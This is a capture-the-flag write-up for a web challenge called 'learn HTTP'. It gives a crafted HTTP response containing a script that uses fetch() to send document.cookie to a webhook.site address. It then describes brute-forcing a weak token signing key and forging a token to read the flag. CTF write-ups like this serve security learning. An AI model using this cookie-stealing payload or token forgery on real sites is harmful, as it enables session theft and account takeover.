 # learn HTTP
## Solution
We can produce any HTTP response, just url-encode it and pass to the input to get the url to produce your HTTP response.

Let's make a perfect HTTP response which will make a simple fetch to hook

```
HTTP/1.1 200 OK
Content-type: text/html
Content-length: 102

<script>fetch(`https://webhook.site/7c0b4f46-d927-4d8e-8601-3d70d049fe4c?${document.cookie}`)</script>
```

![hook response](imgs/hook.png)

We get the token in the request, after bruting the signing key, we find it as `banana`

changing the id to 2 and sigining the payload, we request to `/flag` with cookie as `token=<new_token>`, we get the flag

## Flag
`pearl{c4nt_s3nd_th3_resP0n53_w1th0ut_Sani7iz1ng}`